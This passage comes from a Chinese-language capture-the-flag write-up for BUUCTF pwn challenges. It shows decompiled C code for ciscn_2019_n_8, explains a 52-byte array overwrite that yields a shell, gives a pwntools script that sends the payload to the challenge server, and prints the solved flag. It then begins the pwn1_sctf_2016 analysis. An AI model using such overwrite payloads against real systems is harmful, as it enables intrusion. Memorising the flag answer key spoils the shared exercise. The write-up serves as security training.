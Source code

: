 ```c
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

构造`payload`时直接通过数组赋值用`13*4`个字节占满`var[0]`至`var[12]`，再把`var[13]`赋值为`0x11`，即可系统调用`/bin/sh`。

编写`Python`脚本连接`node4.buuoj.cn`的监听端口`29508`，发送`payload`即可得到`flag{f02dd738-d5ec-4e09-9b7f-68cf73aae00c}`。

```python
from pwn import *

io = remote('node4.buuoj.cn', 29508)
payload = b'a'*13*4 + p32(0x11)
io.sendlineafter(b'What\'s your name?\n', payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/ciscn_2019_n_8/2.png)

------

### [pwn1_sctf_2016](https://buuoj.cn/challenges#pwn1_sctf_2016)

先`file ./pwn1_sctf_2016`查看文件类型再`checksec --file=pwn1_sctf_2016`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/pwn1_sctf_2016/1.png)

用`IDA Pro 32bit`打开`pwn1_sctf_2016`后按`F5`反汇编源码并查看主函数，发现`vuln()`函数。

![](https://paper.tanyaodan.com/BUUCTF/pwn1_sctf_2016/2.png)

双击`vuln()`函数查看源码，分析后发现`fgets()`函数限制输入`32`个字节到变量`s`中，乍一看并没有超出可用栈大小。

![](https://paper.tanyaodan.com/BUUCTF/pwn1_sctf_2016/3.png)

